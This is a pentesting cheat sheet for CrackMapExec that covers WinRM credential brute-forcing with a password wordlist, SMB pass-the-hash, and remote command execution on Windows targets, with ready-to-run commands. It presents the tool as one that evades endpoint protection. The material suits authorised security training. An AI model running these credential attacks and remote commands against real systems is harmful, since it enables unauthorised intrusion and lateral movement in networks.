 # CrackMapExec

"**_A swiss army knife for pentesting networks..._**" [ [Documentation](https://ptestmethod.readthedocs.io/en/latest/cme.html) ]
- CrackMapExec (a.k.a CME) is a `post-exploitation` tool that helps automate assessing the security of large Active Directory networks. 
- Built with stealth in mind, CME follows the concept of “Living off the Land”: abusing built-in Active Directory features/protocols to achieve it’s functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

**Supported Protocols:** `WinRM`, `MSSQL`, `SMB`, `SSH`

https://academy.hackthebox.com/course/preview/using-crackmapexec

## Contents
- [Help](#help)
- [General Syntax](#general-syntax)
- [Examples](#examples)
- [WinRM](#winrm)
- [Pass-the-Hash (SMB)](#pass-the-hash-smb)

## Help
- For help and syntax, just issue the command: `crackmapexec`
- [Cheat Sheet](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)

```
crackmapexec -h
crackmapexec winrm -h  # for help specific to the winrm protocol
crackmapexec smb -h    # for help specific to the smb protocol, etc.
```

## General Syntax

```
crackmapexec <protocol> <target(s)> -u username -p password
```

## Examples

```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'   # or...
crackmapexec <protocol> <target(s)> -u='username' -p='Admin!123@'
```

## WinRM

**Syntax:**

```
crackmapexec winrm [target ip] -u administrator -p /usr/share/.../unix_passwords.txt
```

You can use the `-u` switch to specify a file of possile user names to try.  
- But, if we can get into the admin account, we don't have to do priv esc (so we test with one username, "administrator," first).
- You should get a green `[+]` if successful.

Look over the output (from the top down): 
- First line: you can see it actually connects to WinRM (wsman is an implementation of WinRM: windows management).

**Execute Commands:** 

If you successfully found login credentials, you can crackmapexec to execute arbitrary Windows commands on the target machine. Examples:

```
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "whoami"
# You should get some happy feedback along with the results of your command execution.
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "systeminfo"
# This takes a while to run but provides a lot of information about your target system.
```

## Pass-the-Hash (SMB)

**Syntax:**

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]"
```

This should indicated whether or not it works. 

If you get a green `[+]` and (`Pwn3d!`) then it works and you can try the execution of commands on the system...

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]" -x "ipconfig"
```

It should give you visual feedback about the command execution. And there you go. Execute what you want.
